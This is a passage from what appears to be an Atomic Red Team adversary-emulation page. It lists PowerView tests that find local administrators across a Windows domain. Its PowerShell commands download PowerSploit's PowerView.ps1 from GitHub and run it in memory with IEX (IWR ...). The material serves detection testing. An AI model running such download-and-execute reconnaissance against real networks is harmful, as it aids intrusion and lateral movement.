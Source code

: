 
#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-LocalAdminAccess -Verbose
```






<br/>
<br/>

## Atomic Test #5 - Find local admins on all machines in domain (PowerView)
Enumerates members of the local Administrators groups across all machines in the domain. Upon execution, information about each machine will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** a5f0d9f8-d3c9-46c0-8378-846ddd6b1cbd






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Invoke-EnumerateLocalAdmin  -Verbose
```






<br/>
<br/>

## Atomic Test #6 - Find Local Admins via Group Policy (PowerView)
takes a computer and determines who has admin rights over it through GPO enumeration. Upon execution, information about the machine will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 64fdb43b-5259-467a-b000-1b02c00e510a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | hostname of the computer to analyze | path | $env:COMPUTERNAME|
